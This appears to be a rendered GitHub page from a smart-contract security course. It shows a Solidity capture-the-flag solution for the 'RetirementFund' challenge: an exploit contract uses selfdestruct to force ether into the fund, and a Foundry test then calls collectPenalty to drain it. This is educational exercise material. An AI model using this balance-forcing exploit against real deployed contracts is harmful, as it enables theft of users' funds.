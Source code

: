 ```
        // penalty is what's left
        (bool ok,) = msg.sender.call{value: address(this).balance}("");
        require(ok, "Transfer to msg.sender failed");
    }
}

// Write your exploit contract below
contract ExploitContract {
    RetirementFund public retirementFund;

    constructor(RetirementFund _retirementFund) {
        retirementFund = _retirementFund;
    }

    // write your exploit functions below
    function forceSendEther() public {
        selfdestruct(payable(address(retirementFund)));
    }
}
```
- `test/Week8-9/RetirementFund.t.sol`
```
contract RetirementFundTest is Test {
    RetirementFund public retirementFund;
    ExploitContract public exploitContract;

    function setUp() public {
        // Deploy contracts
        retirementFund = (new RetirementFund){value: 1 ether}(address(this));
        exploitContract = new ExploitContract(retirementFund);
    }

    function testIncrement() public {
        vm.deal(address(exploitContract), 1 ether);
        // Test your Exploit Contract below
        // Use the instance retirementFund and exploitContract

        // Put your solution here
        exploitContract.forceSendEther();
        retirementFund.collectPenalty();
        _checkSolved();
    }

    function _checkSolved() internal {
        assertTrue(retirementFund.isComplete(), "Challenge Incomplete");
    }

    receive() external payable {}
}
```
